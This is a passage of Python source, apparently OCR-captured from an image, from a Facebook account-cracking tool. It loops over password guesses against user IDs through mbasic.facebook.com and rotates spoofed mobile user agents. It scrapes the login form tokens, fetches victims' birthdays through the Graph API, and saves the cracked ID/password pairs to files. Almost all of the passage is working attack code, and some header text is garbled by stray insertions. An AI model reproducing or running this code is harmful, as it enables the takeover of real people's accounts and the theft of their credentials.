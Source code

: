 						lahir = requests.get(f"https://graph.facebook.com/{user}?fields=birthday&access_token={romz}").json()['birthday']
						day, month, year = lahir.split('/')
						month = bulan12[month]
						print ('\r %s*———> %s ◊ %s ◊ %s %s %s  '%(K,user,pw,day,month,year))
						#os.popen("play-audio dapet.mp3")
						cp.append("%s ◊ %s ◊ %s %s %s"%(user,pw,day,month,year))
						open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s ◊ %s %s %s\n"%(user,pw,day,month,year))
						break
					except (KeyError, IOError):
						day = ''
						month = ''
						year = ''
					except:
						pass
					print ('\r %s*———> %s ◊ %s           '%(K,user,pw))
					#os.popen("play-audio dapet.mp3")
					cp.append('%s ◊ %s'%(user,pw))
					open('CP/%s.txt' %(waktu), 'a').write(" *———> %s ◊ %s\n"%(user,pw))
					break
				else:
					continue
			loop += 1
		except requests.exceptions.ConnectionError:
			jeda(1)
			loop += 1
			self.touch(user, manual, **data)
			
	# MBASIC
	def basic(self, user, manual,**data):
		global ok,cp,loop
		warna = random.choice([M, H, K, B, U, O, P, J])
		sys.stdout.write('\r'+warna+'×\x1b[1;96m [crack] %s/%s [%sOK%s:%s%s%s]-[%sCP%s:%s%s%s]'%(loop,len(self.id),H,M,H,len(ok),O,K,M,K,len(cp),O)),
		sys.stdout.flush()
		try:
			for pw in manual:
				pw = pw.lower()
				ses = requests.Session()
				ua = random.choice(["Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]","Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 4.1.2; Nokia_X Build/JZO54K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.87.90 Mobile Safari/537.36 NokiaBrowser/1.0,gzip(gfe)","Mozilla/5.0 (Linux; U; Android 4.4.2; zh-CN; HUAWEI MT7-TL00 Build/HuaweiMT7-TL00) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/40.0.2214.89 UCBrowser/11.3.8.909 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 10; M2006C3MG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Mobile Safari/537.36","Mozilla/5.0 (Linux; Android 7.0; SM-G930VC Build/NRD90M; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/58.0.3029.83 Mobile Safari/537.36"])
				headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
				p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
				dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}